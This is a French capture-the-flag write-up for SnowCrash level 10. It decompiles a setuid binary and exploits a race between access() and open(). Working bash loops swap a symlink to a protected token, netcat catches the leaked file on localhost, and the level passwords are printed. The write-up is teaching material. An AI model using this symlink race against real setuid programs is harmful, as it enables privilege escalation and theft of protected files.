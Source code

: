 # 10 - Binary exploit: race condition

- On se connecte en tant level10.
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```


- Un binaire nous a été laissé. Regardons ça de plus près avec [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level10.c:
int main(int, char **);

Non-debugging symbols:
0x080484d0  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
    HUGE CODE
End of assembler dump.

(gdb) q
```


- Gagnons du temps et utilisons [Ghidra](https://en.wikipedia.org/wiki/Ghidra) pour obtenir une interprétation de ce binaire en C.
```c
int main(int argc,char **argv)
{
  ...  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
    exit(1);
  }

  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];

  iVar2 = access(pcVar6,4);
  if (iVar2 != 0) {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  else {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    ...
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    ...

    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
      exit(1);
    }

    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
      exit(1);
    }

    printf("Connected!\nSending file .. ");
    fflush(stdout);

    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
      exit(1);
    }

    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
      exit(1);
    }

    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }

  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return iVar2;
}
```


- On peut voir que le programme fait un appel à `access(argv[1])`. Si cet appel réussit, il tentera d'établir une connexion socket vers `argv[2]` à travers le port 6969 afin d'envoyer le contenu du fichier nommé `argv[1]`.


- `access()` ne prend pas en compte les bits setuid et setgid lors de la vérification des permissions. Le programme affichera donc `You don't have access to the token` et se terminera si on lui passe directement le token en paramètre.

- Cependant, `open()` prend en compte les bits setuid et setgid lors de la vérification des permissions.

- Avec un script, on peut créer un fichier accessible en lecture, le supprimer, puis créer un lien symbolique avec le même nom pointant vers le token. Ainsi, le programme pourra lire le token et nous l'envoyer.


- Du coup, avec netcat, on va écouter sur le port 6969:
>`nc -lk 6969 > /tmp/pwn.log`


- Ensuite, dans un autre terminal on lance notre script:
```bash
#!/bin/bash
while true
do
	touch /tmp/exploit
	rm /tmp/exploit
	ln -s /home/user/level10/token /tmp/exploit
	rm /tmp/exploit
done
```


- Enfin dans un troisième terminal, on lance le programme:
```bash
#!/bin/bash
while true
do
	/home/user/level10/level10 "/tmp/exploit" "127.0.0.1"
done
```


- Puis on attend d'avoir le bon timming.
```
level10@SnowCrash:~$ cat /tmp/pwn.log | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
...
```

```
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```

```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

```
flag10@SnowCrash:~$ su level11
Password:feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$
```
